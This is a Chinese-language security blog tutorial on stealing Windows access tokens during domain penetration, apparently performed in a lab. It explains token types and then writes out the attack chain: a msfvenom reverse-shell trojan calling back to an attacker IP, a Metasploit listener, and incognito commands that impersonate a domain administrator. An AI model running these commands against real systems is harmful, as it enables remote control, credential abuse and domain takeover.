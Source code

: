 #  域渗透入门-令牌窃取（含复现步骤）   
Syst1m  Zer0 sec   2025-05-06 03:06  
  
宇宙免责声明！！！  
  
本推文提供的信息、技术和方法仅用于教育目的。文中讨论的所有案例和技术均旨在帮助读者更好地理解相关安全问题，并采取适当的防护措施来保护自身系统免受攻击。  
  
严禁将本文中的任何信息用于非法目的或对任何未经许可的系统进行测试。未经授权尝试访问计算机系统或数据是违法行为，可能会导致法律后果。  
  
作者不对因阅读本文后采取的任何行动所造成的任何形式的损害负责，包括但不限于直接、间接、特殊、附带或后果性的损害。用户应自行承担使用这些信息的风险。  
  
我们鼓励所有读者遵守法律法规，负责任地使用技术知识，共同维护网络空间的安全与和谐。  
# 一、令牌（Token）简介  
- Windows访问令牌（Access Token）是描述进程或线程安全上下文的对象，包含用户身份标识（SID）、所属组权限、特权列表等信息它作为临时的安全凭证，允许用户在不重复提供密码的情况下访问系统资源。  
  
- 它决定了进程可访问的系统资源范围，是权限验证的核心依据。  
  
- 可以理解为，当前系统中的某个进程或者线程能访问什么样的系统资源，取决于当前进程拿着什么样的令牌。  
  
- 用户登录后，系统生成唯一的  
主令牌（Primary Token）  
，用于进程创建时的权限验证，新进程默认继承父进程的令牌（如通过图形界面双击程序时继承explorer.exe  
的令牌）  
  
- explorer.exe是Windows资源管理器的核心进程，提供用户与操作系统交互的图形界面，包括桌面图标、任务栏、开始菜单、文件资源管理器窗口等  
  
- 令牌在进程/线程创建时会被完整复制一次（而非持续拷贝），且不同进程的令牌相互独立（比如：用户A的进程无法操作用户B的资源）  
  
- 令牌通过身份认证生成（如密码/NTLM哈希），攻击者无法直接猜测，但可通过窃取进程句柄或注入代码复制/假冒令牌（如窃取域管理员令牌实现横向移动）。  
  
# 二、令牌的分类  
- 在Windows系统中，Access Token有两种类型  
  
- Delegation Token（授权令牌）  
  
- 支持交互式会话登录：用于本地用户登录、远程桌面（RDP）等场景，支持完整的身份验证流程。  
  
- 生命周期：用户注销后降级为模拟令牌，但仍保持有效直至系统重启。  
  
- Impersonation Token（模拟令牌）  
  
- 非交互式操作：适用于网络共享访问（net use  
）、远程管理协议（如WMI、WinRM）等场景，权限范围受限。  
  
- 临时性：仅在当前会话中有效，但系统重启前仍可被利用  
  
- 令牌清除机制  
  
- 系统重启后清除：无论是授权令牌还是模拟令牌，均会随系统重启被完全删除。  
  
- 用户注销后的状态变化：用户通过交互式会话（如远程桌面）登录时生成的授权令牌，在注销后不会立即失效，而是降级为模拟令牌，仍保留在系统内存中，直到重启。  
  
- 即使管理员用户已注销，攻击者仍可通过工具窃取其残留的模拟令牌，伪造身份执行操作  
  
# 三、令牌权限  
- Windows系统默认遵循最小权限原则，用户仅能枚举自身及更低权限用户的访问令牌，例如：  
  
- 若当前进程以普通用户身份运行，无法查看Administrator或SYSTEM进程的令牌  
  
- 当进程具备Administrator或SYSTEM权限时（如通过永恒之蓝漏洞提权至SYSTEM），可枚举系统中所有令牌（令牌的数量，取决于当前shell的访问级别）  
  
- 通过exp提权或者永恒之蓝等得到的权限为system，假如攻击者利用mimikatz和hashdump不能获得Administrator用户的密码，那就需要通过通过令牌窃取进行权限转移，获得Administrator用户的shell， 然后再以Administrator用户的身份启动某些服务。  
  
- 注意：令牌窃取≠提权，令牌窃取是权限转移而非权限提升，例如：  
  
- 从SYSTEM进程窃取Administrator令牌属于降权操作，但可实现特定目标（如启动仅允许Administrator运行的服务）  
  
- 提权需依赖漏洞（如内核溢出、服务配置错误），而令牌窃取仅需令牌存在且可被复制  
  
# 四、令牌窃取  
- 令牌窃取的本质：攻击者通过复制高权限进程的令牌，注入到自身进程中，以冒充目标身份执行操作。（这一过程不涉及漏洞利用，而是权限转移）  
  
- 场景举例  
  
- 初始入侵与本地提权：获取普通用户的Meterpreter Shell，提权至SYSTEM  
  
- 枚举残留令牌：发现存在域管理员（DOMAIN\Admin  
）的模拟令牌（因管理员曾通过RDP登录跳板机并注销）。  
  
- 令牌窃取与身份伪造：将当前线程令牌切换为域管理员令牌。  
  
- 横向移动至域控服务器：使用域管理员令牌调用psexec  
远程执行命令  
  
# 五、通过MSF的incognito工具进行令牌窃取  
- 当通过一些漏洞或者提权方式获取到一个system权限的Meterpreter会话后，可以使用MSF中自带的incognito工具进行令牌窃取  
  
- 先通过msf上线目标域内机器  
  
- 通过msf生成exe木马  
  
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.107 lport=6666 -f exe >test1.exe
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lSfs7HwzmOM2buPlhQgwMSvaVRwBfmavOg9B5Hk2jXPncCb6Y0WEKOpoLqpRSMBJsl8MuFOl0NmhFufPU9a0gA/640?wx_fmt=png&from=appmsg "")  
- 启动msf监听  
  
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.1.107
set lport 6666
run
```  
- 执行exe木马获得一个system权限  
  
- 做实验的时候可以使用psexec获取一个system权限的命令行，通过这个命令行执行exe木马msf就会获得一个system权限的shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lSfs7HwzmOM2buPlhQgwMSvaVRwBfmavnCtwQic4J41iafxRJ7klWlm2MBqwtABfMsI6wlL6kODRCyib8szGicoJGg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lSfs7HwzmOM2buPlhQgwMSvaVRwBfmav8RH7H1662g8sIl2eOIichLaQ1tHmAEoGgibJ9UMo4KY15ttykNSibz2lw/640?wx_fmt=png&from=appmsg "")  
- 此时通过dir  
命令查看域控的c盘会发现权限不够  
  
```
dir \\10.10.1.228\c$
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lSfs7HwzmOM2buPlhQgwMSvaVRwBfmavQ4qcQPxaoLbicbdRnmomaWajQdic4dTWa4zRFHX3oic3bppL59rG4A8YQ/640?wx_fmt=png&from=appmsg "")  
- 通过tasklist -v  
命令发现存在域管进程（以域管理员身份运行的进程）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lSfs7HwzmOM2buPlhQgwMSvaVRwBfmavOJVp5b3rNic9Ziaia3xWAicXrytdNB2icLpWH1unrrP6I7E2phywzicn21Iw/640?wx_fmt=png&from=appmsg "")  
- 在meterpreter下查看当前可用的令牌  
  
```
use incognito
list_tokens -u
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lSfs7HwzmOM2buPlhQgwMSvaVRwBfmav7kZ1cph2Go5QVwCNlOXQ57GxccxMJxJr7FhKhZQZYrbFGcicibluo5ibA/640?wx_fmt=png&from=appmsg "")  
- 窃取域管的令牌  
  
```
impersonate_token 'Lazy\Administrator'
```  
- 窃取成功后通过getuid  
命令发现当前权限为域管，此时即可执行管理员才能执行的操作  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lSfs7HwzmOM2buPlhQgwMSvaVRwBfmavlkKzYxSu84vF2jptrchNQNk6Gk7RyZNEb0bjIua9ovYIISicJ2u6ibRg/640?wx_fmt=png&from=appmsg "")  
# 六、Windows下使用incognito  
- 下载地址：  
https://github.com/milkdevil/incognito2/blob/master/incognito.exe  
  
- 列举  
  
```
incognito.exe list_tokens -u
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lSfs7HwzmOM2buPlhQgwMSvaVRwBfmav3hEMrtjwMVcxFhYz8oo1Y0sxibkklw49ia8q99AlsmBFYXp5ib0RibeoibA/640?wx_fmt=png&from=appmsg "")  
- 窃取域管令牌  
  
```
incognito.exe execute -c "Lazy\Administrator" cmd.exe
```  
  
课程介绍链接：https://www.yuque.com/syst1m-/blog/lc3k6elv0zqhdal3?singleDoc# 《课程介绍》  
  
外部交流群（欢迎进群互相交流），由于群人数超过了200，只能邀请拉群，可以关注公众号，后台回复“加群”，获取助手绿泡泡，联系小助手邀请进群  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/lSfs7HwzmOPQ0wFex2MNKbDRZ2sAzNCAMvALMuUhBbiazlVRN2P3ib3wPCuoMWibCUJvJNdAhBXKC6KHNBUWTr1vg/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
